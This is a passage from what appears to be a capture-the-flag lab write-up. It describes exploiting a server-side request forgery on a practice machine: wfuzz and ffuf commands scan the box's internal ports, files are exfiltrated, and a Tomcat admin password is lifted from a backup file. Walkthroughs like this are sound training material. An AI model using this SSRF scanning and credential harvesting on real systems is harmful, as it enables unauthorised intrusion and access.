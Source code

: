 She did not mention, but I `curl`-ed the info.php for data intelligence reasons. Although if found this it would be better to just copy and paste from browser for a bit more stealth
![1080](usefulinfodotphp.png)


## Exploit

This machine is vulnerable to SSRF, we are access resource that are avaliable to the box on its localhost - as we are access from our attack machine at its 0.0.0.0 address. We are ask the Server-Side to Request something that we should not have access to too. 

areyou0or1's next move is to fuzz the parametre
```bash
wfuzz -c -z range,1-65535 http://10.129.1.117:60000/url.php?path=http://127.0.0.1:FUZZ
# I am more a 0-65535 and ffuf guy; so I just created a wordlist:
for i in {0..65535}; do echo "$i"; done > allPortNumbers.txt
# fuzz away, testing for false falsities and adjusting filtering out by response size of two
# This file will contain 4444 because I had to redo this for 
ffuf -u http://10.129.1.117:60000/url.php?path=http://127.0.0.1:FUZZ -fs 2 -w allPortNumbers.txt -o ffuf-allports.md -of md
```

Going through the ports...
![1080](ssrfport90.png)
Double checked the output for a non found port:
![](justssrftheff.png)

Books on the POP3 
![](booksonthepop3.png)

Hello world...
![](helloworld200.png)

Oooooohh yeahh
![](supersensitiveadmin320.png)

Files to exfiltrate
![1080](filetoexfil.png)

Port 3306 is a mysql server and port 8080 is Apache Tomcat/8.5.5
![](notomcaton8080.png)

An SSRF private browser...
![1080](anonbrowserforfree.png)

Back to the exfil, I check the source of the parametre to get all the files
![](inthesource.png)

Unfortunately no tetris header file...but the backup has hardcoded credentials
```html
<user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```

